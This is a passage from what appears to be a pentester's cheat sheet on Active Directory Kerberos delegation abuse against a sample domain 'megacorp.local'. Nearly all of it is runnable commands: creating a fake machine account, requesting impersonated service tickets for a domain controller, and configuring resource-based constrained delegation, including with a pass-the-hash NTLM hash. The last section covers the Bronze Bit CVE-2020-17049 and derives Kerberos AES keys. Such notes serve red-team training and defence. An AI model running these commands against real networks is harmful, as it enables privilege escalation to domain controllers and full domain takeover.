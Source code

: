 Add new machine account:

```
$ addcomputer.py -computer-name 'fakemachine1337' -computer-pass 'Passw0rd!' -dc-ip 10.10.13.37 -dc-host DC02.megacorp.local megacorp.local/snovvcrash:'Qwe123!@#'
```

Ask TGS for LDAP:

```
$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'DC01' -dc-ip 10.10.13.37 megacorp.local/fakemachine1337:'Passw0rd!'
```



### rbcd-attack

* [https://github.com/tothi/rbcd-attack](https://github.com/tothi/rbcd-attack)

Configure RBCD on the vulnerable host (DC01):

```
$ python3 rbcd.py -f fakemachine1337 -t DC01 -dc-ip 10.10.13.37 megacorp.local/snovvcrash:'Passw0rd!'
$ python3 rbcd.py -f fakemachine1337 -t DC01 -dc-ip 10.10.13.37 megacorp.local/'MEGACORP\SRV01$' -hashes :fc525c9683e8fe067095ba2ddc971889
```



### rbcd_permissions

* [https://github.com/NinjaStyle82/rbcd_permissions](https://github.com/NinjaStyle82/rbcd_permissions)

Configure RBCD on the vulnerable host (DC01) via PtH:

```
$ python3 rbcd.py -t 'CN=dc01,OU=Domain Controllers,DC=megacorp,DC=local' -d megacorp.local -c 'CN=fakemachine1337,CN=Computers,DC=megacorp,DC=local' -u snovvcrash -H fc525c9683e8fe067095ba2ddc971889:fc525c9683e8fe067095ba2ddc971889 -l 10.10.13.37
```



### Bronze Bit

**CVE-2020-17049**

* [https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/)
* [https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/)

Calculate Kerberos keys for the fake machine account with [Get-KerberosAESKey](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372):

```
PS > Get-KerberosAESKey -Password 'Passw0rd!' -Salt MEGACORP.LOCALfakemachine1337
AES128 Key: 01C7B89A74F7AEC1007DED2F3DE0A815
AES256 Key: 211E8E3134ED797B0A2BF6C36D1A966B3BED2B24E4AAA9ECEED23D0ABF659E98
```

